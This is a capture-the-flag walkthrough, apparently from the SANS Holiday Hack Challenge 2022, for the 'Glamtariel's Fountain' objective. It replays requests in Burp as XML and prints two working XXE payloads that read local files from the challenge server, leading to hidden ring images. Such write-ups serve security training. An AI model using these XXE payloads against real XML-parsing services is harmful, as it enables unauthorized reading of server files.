
# Objective 10: Glamtariel's Fountain
**Location: Web Ring / Fountain**  
**Hints (2x) from Hal Tandybuck**

This objective is about getting familiar with XXE attacks.

When dragging the four objects on the top right to the princess and the fountain, they respond with several hints in upper case.

After all four objects were dropped to both targets, the four items are replaced.
The same has to be done again until the four items are again replaced with four rings (one red, one silver, two blue).

Based on the hints, that XXE has to applied here and the princess holds the ringlist in a very simple format, we are trying to read the ringlist using XXE from a guessed path (all images are pulled from `/static/images`). For this the prior POST requests to `/dropped` can be replayed in Burp and converted to XML (the "different language" the princess is referring to):
```
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```
The princess responds with a picture of the folder `x_phial_pholder_2022` containing two files, `bluering.txt` and `redring.txt`

![Ringlist](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/pholder-morethantopsupersecret63842.png)

In fact we are able to get access to the red ring file using the URL https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-1.txt

![Red Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/redring-supersupersecret928164.png)

On the inside of the red ring is written `goldring_to_be_deleted.txt`.

As Glamtariel says that she really would like to have a silver ring (which is with entity `img1` on screen), we switch our request over to:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE reqType [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>&xxe;</reqType>
    <who>princess</who>
</root>
```

Glamtariel responds back with the relative URL of the gold ring: `static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png`


![Gold Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/goldring-morethansupertopsecret76394734.png)

**Achievement: Glamtariel's Fountain**
